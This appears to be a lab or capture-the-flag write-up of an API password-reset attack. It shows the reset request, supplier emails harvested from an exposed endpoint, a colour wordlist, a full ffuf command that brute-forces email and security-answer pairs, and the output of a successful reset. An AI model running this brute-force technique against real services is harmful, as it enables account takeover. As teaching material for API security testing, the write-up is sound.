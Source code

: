 ```
POST /api/v2/authentication/suppliers/passwords/resets/security-question-answers
Content-Type: application/json

{
  "SupplierEmail": "target@example.com",
  "SecurityQuestionAnswer": "answer",
  "NewPassword": "AStrongPassword123!"
}
```

The role used during reconnaissance indicates supplier access (not customer). The exposed `securityQuestion` values (e.g. "What is your favorite color?") make this attack feasible using a focused wordlist.

---

## Wordlists used

* Colors list (example): [https://gist.github.com/mordka/c65affdefccb7264efff77b836b5e717](https://gist.github.com/mordka/c65affdefccb7264efff77b836b5e717)
* Email list (extracted from `/api/v2/suppliers`):

  * `P.Howard1536@globalsolutions.com`
  * `L.Walker1872@globalsolutions.com`
  * `T.Harris1814@globalsolutions.com`
  * `B.Rogers1535@globalsolutions.com`

---

## Automated testing (ffuf)

Command used to brute-force SecurityQuestion answers and email combinations with `ffuf`:

```bash
ffuf -u http://94.237.55.43:33740/api/v2/authentication/suppliers/passwords/resets/security-question-answers \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{"SupplierEmail":"FUZZ-EMAIL","SecurityQuestionAnswer":"FUZZ-Q","NewPassword":"AStrongPassword123!"}' \
  -w email.txt:FUZZ-EMAIL \
  -w colors-list.txt:FUZZ-Q -fs 23
```

Observed `ffuf` result (example):

```
[Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 191ms]
  * FUZZ-EMAIL: B.Rogers1535@globalsolutions.com
  * FUZZ-Q: rust
```

This indicates the reset accepted the provided security answer and set the new password.

---
